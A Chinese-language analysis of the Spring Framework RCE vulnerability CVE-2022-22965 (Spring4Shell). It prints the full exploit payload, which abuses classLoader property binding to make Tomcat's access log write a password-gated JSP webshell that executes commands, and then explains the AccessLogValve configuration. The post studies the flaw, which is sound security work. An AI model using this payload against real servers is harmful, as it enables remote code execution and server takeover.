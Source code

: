 ## Spring Framework RCE CVE-2022-22965 漏洞分析

### 摘要

本文会从几个角度分析漏洞CVE-2022-22965，首先会从payload的构造。每次我都喜欢先分析漏洞的payload，不得不承认实力没达到可以直接分析漏洞地步。所以会先看看payload的构造过程看看，每次学习和分析漏洞的payload能学到很多有趣的角度和想法。从payload的构造分析，分析payload的构造能够站在挖掘者的角度思考一个sink点，应该如何去寻找一条data-flow-path，并且能够满足流向sink的path。其次会结合SPA知识，call-graph分析部分功能点，最后会分析一波漏洞的修复方案。

---



### Payload 构造

下面是本次RCE的payload，看上去并不是很难的样子。其中蕴藏了几个小知识点，下面逐一分析。首先大体看payload是由请求头和请求体两部分组成。

```
headers = {
	"suffix":"%>//",
    "c1":"Runtime",
    "c2":"<%",
}



class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```



---

#### 知识点–Tomcat Access Log

在Tomcat的conf目录下的server.xml文件中配置了访问日志文件，

```xml
        <!-- Access log processes all example.
             Documentation at: /docs/config/valve.html
             Note: The pattern used is equivalent to using pattern="common" -->
        <Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

`className="org.apache.catalina.valves.AccessLogValve"`对应设置日志文件的日志规范类，控制日志文件的文件名、文件后缀和日志输出格式等信息。这里我们就大致理解payload中的**suffix**、**prefix**和**pattern的**作用了。

![image-20220404194617108](https://cdn.jsdelivr.net/gh/SummerSec/Images/2022/03/17u4617ec17u4617ec.png)
